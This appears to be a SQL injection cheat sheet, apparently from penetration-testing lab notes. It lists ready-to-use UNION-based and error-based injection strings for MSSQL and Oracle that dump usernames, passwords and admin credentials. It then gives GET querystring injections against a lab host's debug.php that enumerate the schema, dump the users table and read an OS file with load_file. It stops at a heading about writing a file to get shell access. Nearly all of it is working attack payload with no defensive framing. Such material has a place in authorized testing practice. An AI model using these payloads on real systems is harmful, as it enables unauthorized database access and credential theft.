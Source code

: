 ' AND 0=1 UNION SELECT @@VERSION,2--
',convert(int,(user_name())))--
',convert(int,(select table_name from information_schema.tables)))--
',convert(int,(SELECT name FROM master..syslogins)))--
',convert(int,(select top 1 table_name from information_schema.tables)))--
' UNION SELECT null,null,null FROM dual--
' UNION SELECT null,null,1 FROM dual--
' UNION SELECT null,2,3 FROM dual--
' UNION SELECT 1,null,3 FROM dual--
' UNION SELECT 1,2,3 FROM dual--
',convert(int,(select cast(concat(db_name(),0x3a,0x3a,table_name,0x0a) as varchar(8000)) from information_schema.tables for xml path(''))))--
',convert(int,(select cast(concat(db_name(),0x3a,0x3a,column_name,0x0a) as varchar(8000)) from information_schema.columns where table_name='users' for xml path(''))))--
',convert(int,(select cast(concat(username,0x3a,0x3a,email,0x0a) as varchar(8000)) from users for xml path(''))))--
' UNION SELECT user,(select banner from v$version where rownum=1),1 FROM dual--
' UNION SELECT table_name,null,1 FROM all_tables--
' UNION SELECT column_name,null,1 FROM all_tab_columns WHERE table_name='WEB_ADMINS'--
' UNION SELECT column_name,'',1 FROM all_tab_columns WHERE table_name='WEB_USERS'--
' UNION SELECT USER_NAME,PASSWORD,1 FROM WEB_USERS--
' UNION SELECT ADMIN_NAME,PASSWORD,1 FROM WEB_ADMINS--
',convert(int,(select cast(concat(0x3a,0x3a,name,0x0a) as varchar(8000)) from master..sysdatabases for xml path(''))))--
',convert(int,(select cast(concat('archive',0x3a,0x3a,table_name,0x0a) as varchar(8000)) from archive.information_schema.tables for xml path(''))))--
',convert(int,(select cast(concat('pmanager',0x3a,0x3a,column_name,0x0a) as varchar(8000)) from archive.information_schema.columns where table_name='pmanager' for xml path(''))))--
',convert(int,(select alogin,psw FROM archive WHERE table_name='pmanager' FOR XML PATH(''))))--
',convert(int,(select cast(concat(alogin,0x3a,0x3a,psw,0x0a) as varchar(8000)) from archive.dbo.pmanager FOR XML PATH(''))))--

*********************************// SQLi via GET Querystring**********************************
# Enumerate number of columns web app returns; increment final 1 to 2,3,4,etc. to see max col returned
http://192.168.131.10/debug.php?id=1 ORDER BY 1
# Enumerate OS User running DB & DB Version
http://192.168.131.10/debug.php?id=1 UNION SELECT 1,user(),@@version
# Enumerate All Databases' Tables and their respective columns
http://192.168.131.10/debug.php?id=1 UNION SELECT 1,table_name,column_name FROM information_schema.columns
# Enumerate users table column names and their datatypes if web app only returns 2 columns from SQL table and not the first column
http://192.168.131.10/debug.php?id=1 UNION SELECT 1,column_name,data_type FROM information_schema.columns WHERE table_name='users'
# Enumerate All Users & their Passwords from 'users' table
http://192.168.131.10/debug.php?id=1 UNION SELECT 1,username,password FROM users
# Read File from Underlying OS
http://192.168.131.10/debug.php?id=1 UNION SELECT 1,2,load_file('C:/Windows/System32/drivers/etc/hosts')
# Write File to Underlying OS to Establish Shell Access